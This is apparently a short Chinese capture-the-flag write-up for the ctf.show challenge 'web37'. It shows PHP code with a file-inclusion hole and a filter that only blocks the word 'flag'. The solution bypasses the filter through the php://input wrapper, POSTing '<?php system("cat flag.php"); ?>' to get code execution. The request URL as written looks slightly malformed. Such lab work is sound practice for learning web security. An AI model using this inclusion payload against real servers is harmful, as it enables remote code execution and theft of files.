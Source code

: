 # web37

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;

    }

}else{
    highlight_file(__FILE__);
}
```

那么直接 include flag.php 即可

但是由于有 `flag` 关键词拦截，可以考虑通过伪协议传入

```plaintext
https://fce6f17c-9649-48f2-8533-e6e13d87dfe3.challenge.ctf.show/c=php:input

POST: <?php system("cat flag.php"); ?>
```

![img](img/image_20250216-191621.png)
